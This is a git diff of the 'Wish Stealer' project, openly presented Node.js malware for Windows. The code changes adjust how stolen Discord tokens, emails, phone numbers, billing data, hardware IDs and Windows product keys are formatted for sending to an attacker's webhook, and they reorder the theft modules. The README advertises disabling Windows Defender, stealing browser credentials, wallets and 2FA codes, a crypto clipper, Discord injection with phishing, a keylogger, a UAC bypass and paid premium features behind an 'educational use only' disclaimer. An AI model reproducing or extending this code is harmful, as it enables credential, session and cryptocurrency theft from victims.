

added files

diff --git a/src/modules/tokens/tokens.js b/src/modules/tokens/tokens.js
@@ -82,7 +82,7 @@ const getHQGuilds = async (guilds, token) => {
                 ? `<:Owner:963333541343686696> Owner`
                 : `<:Staff:1136740017822253176> Admin`;
             const members = `Members: \`${guild.member_count}\``;
-            const name = `**${guild.name}** - (${guild.id})`;
+            const name = `(**${guild.name}**)`;
 
             return `${emoji} | ${name} - ${members}${invite ? ` - ${invite}` : ''}\n`;
 
@@ -239,37 +239,37 @@ module.exports = async (webhookUrl) => {
                         },
                         fields: [
                             {
-                                name: `<a:hearts:1176516454540116090> ${browser} Token:`,
+                                name: `<:x:1194495538138185728> ${browser} Token:`,
                                 value:  '```' + token + '```' + '\n' + `[Click Here To Copy Your Token](${copy})`,
                                 inline: false
                             },
                             { name: '\u200b', value: '\u200b', inline: false },
                             {
-                                name: 'Nitro:',
-                                value: getNitro(profile),
+                                name: '<a:mail:1245038428891123815> Email:',
+                                value:  '`' + (user.email || '❓') + '`',
                                 inline: true
                             },
                             {
-                                name: 'Phone:',
+                                name: '<a:phone:1104204812867874936> Phone:',
                                 value:  '`' + (user.phone || '❓') + (user.mfa_enabled ? ' (2FA)' : '') + '`',
                                 inline: true
                             },
                             { name: '\u200b', value: '\u200b', inline: false },
                             {
-                                name: 'Email:',
-                                value:  '`' + (user.email || '❓') + '`',
+                                name: '<a:nitro:1122755911967068210> Nitro:',
+                                value: getNitro(profile),
                                 inline: true
                             },
                             {
-                                name: 'Badges:',
+                                name: '<:billing:1122678162288037929> Billing:',
+                                value: getBilling(billing),
+                                inline: true
+                            },
+                            {
+                                name: '<a:badges:1138323945284714516> Badges:',
                                 value: getFlags(user.public_flags),
                                 inline: true
                             },
-                            {
-                                name: 'Billing:',
-                                value: getBilling(billing),
-                                inline: true
-                            }
                         ]
                     }
                 ]

diff --git a/src/modules/system/system.js b/src/modules/system/system.js
@@ -32,7 +32,7 @@ module.exports = async (webhookUrl) => {
                     fields: [
                         {
                             name: 'User Information',
-                            value: `\`\`\`Username: ${os.userInfo().username}\nHostname: \`${os.hostname()}\`\`\``,
+                            value: `\`\`\`Username: ${os.userInfo().username}\nHostname: ${os.hostname()}\`\`\``,
                         },
                         {
                             name: 'Disk Information',
@@ -40,7 +40,7 @@ module.exports = async (webhookUrl) => {
                         },
                         {
                             name: 'System Specs',
-                            value: `\`\`\`OS: ${OS}CPU: ${CPU}GPU: ${GPU}RAM: ${RAM}HWID: ${UUID}Product Key: ${WINDOWS_KEY}\`\`\``,
+                            value: `\`\`\`OS: ${OS}\nCPU: ${CPU}\nGPU: ${GPU}\nRAM: ${RAM}\nHWID: ${UUID}\nProduct Key: ${WINDOWS_KEY}\`\`\``,
                         },
                         {
                             name: 'Network Details',

diff --git a/src/utils/requests/requests.js b/src/utils/requests/requests.js
@@ -33,11 +33,11 @@ const webhook = async (webhookUrl, data, files = [], canary) => {
     }
 
     data.username = 'Wish Stealer';
-    data.avatar_url = 'https://raw.githubusercontent.com/k4itrun/wish/refs/heads/main/.github/assets/wish-webhook.png';
+    data.avatar_url = 'https://avatars.githubusercontent.com/u/181030699';
 
     if (data.embeds) {
         for (const embed of data.embeds) {
-            embed.color = parseInt('ffffff', 16);
+            embed.color = parseInt('ab3cf5', 16);
             embed.footer = {
                 text: 'github.com/k4itrun/Wish - made by k4itrun',
                 icon_url: 'https://avatars.githubusercontent.com/u/103044629'

diff --git a/src/index.js b/src/index.js
@@ -57,10 +57,10 @@ const aurita = async () => {
     
     await execute(system, CONFIG.webhook);
     await execute(browsers, CONFIG.webhook);
-    await execute(games, CONFIG.webhook);
     await execute(commonFiles, CONFIG.webhook);
     await execute(stealCodes, CONFIG.webhook);
     await execute(discordTokens, CONFIG.webhook);
+    await execute(games, CONFIG.webhook);
     await execute(wallets, CONFIG.webhook);
     await execute(vpns, CONFIG.webhook);
     await execute(socials, CONFIG.webhook);

diff --git a/src/utils/program/program.js b/src/utils/program/program.js
@@ -49,13 +49,9 @@ const setRegistryValue = ({ keyPath, name, type, value }) => {
 };
 
 const isElevated = async () => {
-    return new Promise((resolve) => {
+    return new Promise((resolve, reject) => {
         child_process.exec('net session', (error) => {
-            if (!error) {
-                resolve();
-            } else {
-                reject(error);
-            }
+            resolve(!error);
         });
     });
 };

diff --git a/README.md b/README.md
@@ -1,7 +1,7 @@
-[shield-github-issues]: https://img.shields.io/github/issues/k4itrun/wish?style=for-the-badge&color=ffffff
-[shield-github-license]: https://img.shields.io/github/license/k4itrun/wish?style=for-the-badge&color=ffffff
-[shield-github-stars]: https://img.shields.io/github/stars/k4itrun/wish?style=for-the-badge&color=ffffff
-[shield-github-forks]: https://img.shields.io/github/forks/k4itrun/wish?style=for-the-badge&color=ffffff
+[shield-github-issues]: https://img.shields.io/github/issues/k4itrun/wish?style=for-the-badge&color=8E54E9
+[shield-github-license]: https://img.shields.io/github/license/k4itrun/wish?style=for-the-badge&color=8E54E9
+[shield-github-stars]: https://img.shields.io/github/stars/k4itrun/wish?style=for-the-badge&color=8E54E9
+[shield-github-forks]: https://img.shields.io/github/forks/k4itrun/wish?style=for-the-badge&color=8E54E9
 
 [github-assets-img-config-link]: .github/assets/config.png
 
@@ -13,13 +13,11 @@
 [github-assets-img-sessioninstagram-link]: .github/assets/sessioninstagram.png
 [github-assets-img-sessiontiktok-link]: .github/assets/sessiontiktok.png
 [github-assets-img-games-link]: .github/assets/games.png
-[github-assets-img-steam-link]: .github/assets/steam.png
 [github-assets-img-commonfiles-link]: .github/assets/commonfiles.png
 [github-assets-img-stealcodes-link]: .github/assets/stealcodes.png
 [github-assets-img-tokens-link]: .github/assets/tokens.png
-[github-assets-img-wallets-link]: .github/assets/wallets.png
-[github-assets-img-vpns-link]: .github/assets/vpns.png
-[github-assets-img-socials-link]: .github/assets/socials.png
+[github-assets-img-wallets-extensions-link]: .github/assets/wallets-extensions.png
+[github-assets-img-vpns-socials-link]: .github/assets/vpns-socials.png
 [github-assets-img-wish-link]: .github/assets/wish.png
 [github-assets-img-files-link]: .github/assets/files.png
 
@@ -33,12 +31,12 @@
 
 <div align="center">
 
-<img src=".github/assets/avatar.png" width=100 alt="Aurita"/><br/>
-
 [![][shield-github-issues]][github-issues-link]
 [![][shield-github-license]][github-license-link]
 [![][shield-github-stars]][github-stars-link]
 [![][shield-github-forks]][github-forks-link]<br/>
+
+<img src=".github/assets/avatar.png" width=100 alt="Aurita"/><br/>
 
 # [@Wish Stealer][github-link]
 Node.js malware for Windows that steals data from Discord, browsers, and crypto wallets, affecting all users.
@@ -48,12 +46,12 @@ Node.js malware for Windows that steals data from Discord, browsers, and crypto 
 ## Table of Contents
 1. [Overview](#overview)
    - [Features](#features-50)
+   - [Premium Features](#premium-features)
 2. [Getting Started](#getting-started)
    - [Requirements](#requirements)
    - [Installation](#installation)
 3. [Usage](#usage)
 4. [Preview](#preview)
-      - [Premium Features](#premium-features)
       - [Star History](#star-history)
 5. [Uninstalling](#uninstalling)
 6. [Acknowledgments](#acknowledgments)
@@ -63,45 +61,60 @@ Node.js malware for Windows that steals data from Discord, browsers, and crypto 
 10. [Disclaimer](#disclaimer)
 
 ## Overview
-The most comprehensive open-source stealer based on Node.js available on GitHub. This Discord stealer utilizes a privilege escalation technique to gain access to all user sessions on Windows.
+The most comprehensive open-source stealer based on Node.js available on GitHub. 🚀 This Discord stealer utilizes a privilege escalation technique to gain access to all user sessions on Windows. 🔑
 
-- If you're wondering where the previous "AuraThemes" repository was, it was simply abandoned by the creation of this new one.
+- If you're wondering where the previous "AuraThemes" repository was, it was simply abandoned by the creation of this new one. 🗂
 
 ### Features (+50)
-
 - [Development][github-link]
-   - Clean and efficient codebase.
-   - Up-to-date dependencies.
-   - Minimal reliance on external Node.js libraries.
+   - Clean and efficient codebase. ✨
+   - Up-to-date dependencies. 📅
+   - Minimal reliance on external Node.js libraries. 📦
 - [Modules][github-link]
-   - [antidebug](src/modules/antidebug/antidebug.js): Terminates debugging tools (incomplete).
-   - [antivirus](src/modules/antivirus/antivirus.js): Disables Windows Defender and blocks access to antivirus-related websites.
-   - [antivm](src/modules/antivm/antivm.js): Terminates execution if running inside a virtual machine environment.
+   - [antidebug](src/modules/antidebug/antidebug.js): Terminates debugging tools (incomplete). 🛠
+   - [antivirus](src/modules/antivirus/antivirus.js): Disables Windows Defender and blocks access to antivirus-related websites. 🚫
+   - [antivm](src/modules/antivm/antivm.js): Terminates execution if running inside a virtual machine environment. 🖥
    - [browsers](src/modules/browsers/browsers.js): 
-      - Captures logins, cookies, credit card details, bookmarks, autofill data, browsing history, and downloads from 37 Chromium-based browsers.
-      - Captures logins, cookies, browsing history, bookmarks, and downloads from 10 Gecko/Firefox-based browsers.
-   - [sessions](src/modules/browsers/sessions.js): Extracts active sessions from platforms like Spotify, TikTok, and Instagram.
-   - [clipper](src/modules/clipper/clipper.js): Monitors the clipboard for cryptocurrency addresses and replaces them with predefined addresses.
-   - [commonfiles](src/modules/commonfiles/commonfiles.js): Collects sensitive files from common directories on the system.
-   - [fakeerror](src/modules/fakeerror/fakeerror.js): Displays a fake error message to trick users into thinking the program has crashed.
-   - [games](src/modules/games/games.js): Extracts session data from popular game launchers such as Epic Games, Uplay, Minecraft, and Riot Games.
-   - [hideconsole](src/modules/hideconsole/hideconsole.js): Hides the console window to run the program discreetly.
-   - [injections](src/modules/injections): Injects into applications like Discord and crypto wallets to capture sensitive information.
+      - Captures logins, cookies, credit card details, bookmarks, autofill data, browsing history, and downloads from 37 Chromium-based browsers. 🔍
+      - Captures logins, cookies, browsing history, bookmarks, and downloads from 10 Gecko/Firefox-based browsers. 🦊
+   - [sessions](src/modules/browsers/sessions.js): Extracts active sessions from platforms like Spotify, TikTok, and Instagram. 📱
+   - [clipper](src/modules/clipper/clipper.js): Monitors the clipboard for crypto addresses and replaces them. 💰
+   - [commonfiles](src/modules/commonfiles/commonfiles.js): Collects sensitive files from common directories on the system. 📂
+   - [fakeerror](src/modules/fakeerror/fakeerror.js): Displays a fake error message to trick users into thinking the program has crashed. ❌
+   - [games](src/modules/games/games.js): Extracts session data from popular game launchers like Epic Games and Minecraft and More. 🎮
+   - [hideconsole](src/modules/hideconsole/hideconsole.js): Hides the console window to run the program discreetly. 👀
+   - [injections](src/modules/injections): Injects into applications like Discord and crypto wallets to capture sensitive information. 💉
       - [discord](src/modules/injections/discord/discord.js):
-         - Persistent startup injection (remains active even if the user attempts to remove it).
-         - Captures logins, registration data, and two-factor authentication requests.
-         - Intercepts email and password change requests as well as backup code requests.
-         - Blocks QR code logins and views of connected devices.
-         - Phishing mode simulates alerts to trick users into changing their email credentials.
-   - [killprocess](src/modules/killprocess/killprocess.js): Terminates processes that are listed in a predefined blacklist.
-   - [socials](src/modules/socials/socials.js): Extracts data from over 20 social media applications, stealing sensitive information from each.
-   - [startup](src/modules/startup/startup.js): Ensures the program launches automatically when the system starts.
-   - [stealcodes](src/modules/stealcodes/stealcodes.js): Captures two-factor authentication (2FA) codes from services like Discord, GitHub, Google, and more.
-   - [system](src/modules/system/system.js): Gathers detailed system information including IP address, installed antivirus software, screenshots, CPU, GPU, RAM details, location, and saved Wi-Fi networks.
-   - [tokens](src/modules/tokens/tokens.js): Extracts tokens from four Discord applications and over 30 browsers.
-   - [vpns](src/modules/vpns/vpns.js): Retrieves sensitive files from over 20 VPN applications installed on the system.
-   - [wallets](src/modules/wallets/wallets.js): Extracts data from more than 30 browser-based cryptocurrency wallets, as well as crucial information from locally installed wallets.
+         - Persistent startup injection (remains active even if the user attempts to remove it). 🔄
+         - Captures logins, registration data, and two-factor authentication requests. 📧
+         - Intercepts email and password change requests as well as backup code requests. 🔑
+         - Blocks QR code logins and views of connected devices. 🚫
+         - Phishing mode simulates alerts to trick users into changing their email credentials. 🎣
+   - [killprocess](src/modules/killprocess/killprocess.js): Terminates processes that are listed in a predefined blacklist. 🚷
+   - [socials](src/modules/socials/socials.js): Extracts data from over 20 social media applications, stealing sensitive information from each. 📸
+   - [startup](src/modules/startup/startup.js): Ensures the program launches automatically when the system starts. ⚙
+   - [stealcodes](src/modules/stealcodes/stealcodes.js): Captures (2FA) codes from services like Discord, GitHub, Google, and more. 🔒
+   - [system](src/modules/system/system.js): Gathers detailed system information including IP address, installed antivirus software, screenshots, CPU, GPU, RAM details, location, and saved Wi-Fi networks. 📊
+   - [tokens](src/modules/tokens/tokens.js): Extracts tokens from four Discord applications and over 30 browsers. 🗝
+   - [vpns](src/modules/vpns/vpns.js): Retrieves sensitive files from over 20 VPN applications installed on the system. 🔐
+   - [wallets](src/modules/wallets/wallets.js): Extracts data from more than 30 browser-based cryptocurrency wallets, as well as crucial information from locally installed wallets. 💼
 
+### Premium Features
+- Marked features: Premium  
+   - [ ] **Upload files**: Upload files seamlessly. 📤  
+   - [ ] **Update/Reinstall Bypass**: Bypass update and reinstallation processes. 🔄  
+   - [ ] **File/Session Theft**: Steal files and active sessions. 📂  
+   - [ ] **Clipper Wallets**: Monitor and replace cryptocurrency wallet addresses. 💰  
+   - [ ] **Launcher Stealer**: Extract data from game launchers. 🎮  
+   - [ ] **VPN and Messenger Stealers**: Capture sensitive data from VPNs and messaging apps. 🌐  
+   - [x] **Extension Injection**: Inject malicious extensions into browsers. 💉  
+   - [x] **UAC Bypass**: Bypass User Account Control prompts. 🚫  
+   - [x] **Wallet Injection**: Inject data into cryptocurrency wallets. 💳  
+   - [x] **Email Injection**: Intercept and modify email communications. 📧  
+   - [x] **Keylogger Integration**: Record keystrokes for sensitive information. ⌨  
+   - [x] **Discord Injection (Force 2FA Disabled)**: Inject into Discord to disable two-factor authentication. 🔒  
+   - [x] **Builder, Discord Bot, and API**: Create bots and APIs for Discord functionalities. 🤖
+   
 ## Getting Started
 
 ### Requirements
@@ -145,38 +158,34 @@ npm run start or node index
 
 ## Preview
 ![][github-assets-img-system1-link]
-![][github-assets-img-system2-link]
-![][github-assets-img-browsers-link]
-![][github-assets-img-keywords-link]
-![][github-assets-img-sessionspotify-link]
-![][github-assets-img-sessioninstagram-link]
-![][github-assets-img-sessiontiktok-link]
-![][github-assets-img-steam-link]
-![][github-assets-img-commonfiles-link]
-![][github-assets-img-stealcodes-link]
-![][github-assets-img-tokens-link]
-![][github-assets-img-games-link]
-![][github-assets-img-wallets-link]
-![][github-assets-img-vpns-link]
-![][github-assets-img-socials-link]
-![][github-assets-img-wish-link]
-![][github-assets-img-files-link]
 
-### Premium Features
-- Marked features: Premium  
-   - [ ] Upload files
-   - [ ] Update/Reinstall Bypass
-   - [ ] File/session theft
-   - [ ] Clipper Wallets
-   - [ ] Launcher Stealer
-   - [ ] VPN and Messenger Stealers
-   - [x] Extension Injection
-   - [x] UAC Bypass
-   - [x] Wallet Injection
-   - [x] Email Injection
-   - [x] Keylogger Integration
-   - [x] Discord Injection (Force 2FA disabled)
-   - [x] Builder, Discord Bot and API
+![][github-assets-img-system2-link]
+
+![][github-assets-img-browsers-link]
+
+![][github-assets-img-keywords-link]
+
+![][github-assets-img-sessionspotify-link]
+
+![][github-assets-img-sessioninstagram-link]
+
+![][github-assets-img-sessiontiktok-link]
+
+![][github-assets-img-commonfiles-link]
+
+![][github-assets-img-stealcodes-link]
+
+![][github-assets-img-tokens-link]
+
+![][github-assets-img-wallets-extensions-link]
+
+![][github-assets-img-vpns-socials-link]
+
+![][github-assets-img-games-link]
+
+![][github-assets-img-wish-link]
+
+![][github-assets-img-files-link]
 
 ### Star History
 <a href="https://star-history.com/#k4itrun/wish&Timeline">
@@ -218,14 +227,14 @@ For inquiries, reach out at [contact@w1sh.xyz](mailto:contact@w1sh.xyz) or join 
 This software is licensed under the [MIT License](LICENSE).
 
 ## Disclaimer
-### Essential Advisory: This tool is for educational use only.
-This tool is intended for educational purposes only. Misuse will not be supported, and by using it, you agree to these terms.
+### Important Notice: Educational Use Only.
+This tool is designed solely for educational purposes. Any misuse of this tool is strictly prohibited. By using this tool, you acknowledge and accept these terms.
 
 ### User Accountability:
-By using this tool, you accept full responsibility for your actions. Misuse of this software is prohibited, and the creator disclaims any liability. Ensure your usage complies with all relevant laws.
+By utilizing this tool, you take full responsibility for your actions. The creator disclaims any liability for misuse. It is your responsibility to ensure that your use of this software complies with all applicable laws and regulations.
 
 ### No Assistance:
-The creator will not provide support or address misuse. Inquiries related to harmful use will be ignored.
+The creator will not provide assistance or support for any misuse of this tool. Any inquiries related to harmful or illegal activities will be ignored.
 
 ### Terms Acceptance:
-By using this tool, you agree to this disclaimer. If you do not agree, refrain from using the software.
+By using this tool, you agree to abide by this disclaimer. If you do not agree with these terms, please do not use the software.
